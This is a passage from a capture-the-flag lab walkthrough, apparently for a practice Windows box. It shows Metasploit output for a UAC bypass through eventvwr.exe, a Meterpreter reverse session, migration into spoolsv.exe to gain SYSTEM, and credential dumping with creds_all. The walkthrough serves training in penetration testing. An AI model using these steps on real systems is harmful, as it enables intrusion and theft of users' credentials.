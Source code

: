 ```
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\SysWOW64\eventvwr.exe
[+] eventvwr.exe executed successfully, waiting 10 seconds for the payload to execute.
[*] Sending stage (176195 bytes) to 10.10.214.158
[*] Meterpreter session 2 opened (10.2.13.68:4444 -> 10.10.214.158:49201) at 2020-06-10 05:42:53 -0400
```

14. We can now verify that we have expanded permissions using the command `getprivs`. What permission listed allows us to take ownership of files?
```
SeTakeOwnershipPrivilege	
```

#Task 5 Looting

Learn how to gather additional credentials and crack the saved hashes on the machine.

1. No answer needed

2. In order to interact with lsass we need to be 'living in' a process that is the same architecture as the lsass service (x64 in the case of this machine) and a process that has the same permissions as lsass. The printer spool service happens to meet our needs perfectly for this and it'll restart if we crash it! What's the name of the printer service?

Mentioned within this question is the term 'living in' a process. Often when we take over a running program we ultimately load another shared library into the program (a dll) which includes our malicious code. From this, we can spawn a new thread that hosts our shell. 
```
spoolsv.exe
```

3. No answer needed
```
meterpreter > migrate -N spoolsv.exe
[*] Migrating from 2672 to 1364...
[*] Migration completed successfully.
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

4. Let's check what user we are now with the command `getuid`. What user is listed?
```
NT AUTHORITY\SYSTEM
```

5. No answer needed

6. No answer needed 

7. Which command allows up to retrieve all credentials?
```
creds_all
```
8. Run this command now. What is Dark's password? Mimikatz allows us to steal this password out of memory even without the user 'Dark' logged in as there is a scheduled task that runs the Icecast as the user 'Dark'. It also helps that Windows Defender isn't running on the box ;) (Take a look again at the ps list, this box isn't in the best shape with both the firewall and defender disabled)
```
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain   LM                                NTLM                              SHA1
--------  ------   --                                ----                              ----
```